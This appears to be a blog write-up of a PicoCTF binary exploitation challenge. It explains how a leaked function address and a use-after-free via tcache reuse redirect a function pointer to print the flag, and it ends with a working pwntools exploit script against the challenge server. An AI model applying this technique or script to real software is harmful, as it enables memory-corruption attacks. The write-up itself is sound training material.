<< [Back to Home](https://papadoxie.github.io)

# Unsubscriptions Are Free
## Write-up of the PicoCTF Binary Exploitation Challenge


## Setup

2 files are provided to us for the challenge and the address
to the server is also provided.

Let's download the files and take a look at the source

## Analysis

Immediately we see a function that prints the flag  



Upon further analysis we can see that this function is not being called anywhere but there is another suspicious function



Running the binary we can see this prints out the address of the function that will print the flag



Let's explore further to see how we can use this information  
  
The main function is pretty straightforward as well as the printMenu function





The processInput function handles the processing of all the user input



doProcess just calls the function pointed to by the function pointer passed to it



Now let's take a look at the remaining functions



There is a pointer being freed here and this function can be called multiple times  
This seems like a bug. Let's test it



This looks like a Use After Free bug. Let's try to find out if we can write to this allocation somehow



Here we have it. A function that allocates an 8 byte buffer and lets us write to it  
Now what will happen is
- We will free the "user" buffer
- It will go into the tcache
- We will allocate a buffer
- This allocation will come from the tcache and it'll point to the same place "user" was pointing to
- We will write the address of the "hahaexploitgobrr" function to this buffer
- We will free the "user" buffer again to call the function

Let's try this out

## Exploitation

Here's the exploit script

```py
#!/usr/bin/python3

from pwn import log, process, remote, time
import pwnlib.util.packing as pack

p = remote("mercury.picoctf.net", 48259)

p.sendline(b"S") # Get the memory leak

for i in range(9):
    try:
        inp = str(p.recvline()[21:].strip())[2:].strip("'") # Get the address from the leak
    except:
        log.info("")


inp = int(inp, 16) # Convert it to hex
log.info(f"{hex(inp)}")

p.sendline(b"I")    # Free user
p.sendline(b"Y")

p.sendline(b"L")    # Allocate the new buffer and write the address to it
time.sleep(1)
p.sendline(pack.p64(inp))

p.sendline(b"I")    # Free user again
p.sendline(b"Y")

p.interactive()
```



It worked! We got the flag